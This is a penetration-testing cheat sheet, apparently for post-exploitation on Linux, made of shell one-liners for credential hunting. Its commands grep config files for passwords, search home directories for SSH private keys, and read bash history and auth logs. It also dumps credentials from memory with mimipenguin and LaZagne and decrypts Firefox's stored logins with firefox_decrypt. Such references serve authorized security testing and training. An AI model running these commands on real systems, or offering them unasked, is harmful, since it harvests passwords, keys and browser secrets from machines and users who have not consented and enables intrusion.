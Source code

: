 # Configuration Files
```shell
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
# Credentials in Configuration Files
```shell
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
# Databases
```shell
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
# Notes
```shell
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
# Scripts
```shell
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
# Cronjobs
```shell
cat /etc/crontab 
```
```shell
ls -la /etc/cron.*/
```
# SSH Keys
##### SSH Private Keys
```shell
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```
#### SSH Public Keys
```shell
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```
# History
#### Bash History
```shell
tail -n5 /home/*/.bash*
```
# Logs
```shell
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```
# Memory and Cache
#### Memory - Mimipenguin
```shell
sudo python3 mimipenguin.py
```
```shell
sudo bash mimipenguin.sh 
```
#### Memory - LaZagne
```shell
sudo python2.7 laZagne.py all
```
# Browsers
#### Firefox Stored Credentials
```shell
ls -l .mozilla/firefox/ | grep default 
```
```shell
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```
The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. Otherwise, `Firefox Decrypt 0.7.0` with Python 2 must be used.
#### Decrypting Firefox Credentials
```shell
python3.9 firefox_decrypt.py
```
#### Browsers - LaZagne
```shell
python3 laZagne.py browsers
```
